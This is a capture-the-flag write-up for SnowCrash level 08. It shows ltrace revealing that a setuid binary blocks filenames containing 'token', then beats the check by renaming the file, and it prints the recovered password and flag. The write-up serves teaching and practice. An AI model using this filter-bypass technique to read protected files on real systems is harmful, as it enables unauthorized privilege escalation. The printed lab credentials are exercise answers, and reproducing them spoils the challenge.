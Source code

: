 # Level 08

## Vulnerability
Privilege escalation - weak filename check

## Context
```
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## Solution
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```
Ok lets create a file to read.
```
level08@SnowCrash:~$ echo "oh hi" > hi
level08@SnowCrash:~$ ./level08 hi
oh hi
```
Looks like the binary ```level08``` prints the contents of a file given as argument. We don't have permissions to read token directly, will ```level08``` read ```token``` for us?
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
Hmm, why not?
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                    = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                = 27
exit(1 <unfinished ...>
```
It seems like it calls strstr to see if "token" is contained in the filename, and rejects access if true. So what if we simply change the filename? (An alternative is to create a symlink ```ln -s token password```)
```
level08@SnowCrash:~$ mv token password
level08@SnowCrash:~$ ./level08 password
quif5eloekouj29ke0vouxean
```
Great! Lets log in to flag08 and launch getflag.
```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
